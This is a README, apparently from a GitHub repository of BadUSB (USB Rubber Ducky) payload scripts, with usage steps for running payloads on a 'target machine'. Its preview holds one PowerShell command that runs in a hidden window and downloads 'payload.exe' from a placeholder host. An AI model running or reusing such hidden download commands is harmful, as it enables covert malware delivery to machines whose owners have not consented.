 # BadUSB Scripts

![BadUSB Banner](https://bobhinio.pl/assets/BadUsbBanner.webp){width=10 height=10}

This repository contains BadUSB scripts for various use cases. Use them responsibly.

## Features
- Various pre-made scripts for USB Rubber Ducky
- Easy to customize
- Compatible with standard BadUSB devices

## Disclaimer
The files and scripts provided here are shared as-is, without any guarantees. The author cannot be held responsible for any issues or consequences arising from their use. Please use them responsibly and in compliance with applicable laws.

---

### How to Use
1. Flash the script to your BadUSB device.
2. Plug the device into a target machine.
3. Watch it execute the payload.

---

## Preview
Here's an example of a payload in action:
```powershell
powershell -WindowStyle Hidden -Command "Invoke-WebRequest -Uri http://example.com -OutFile payload.exe"
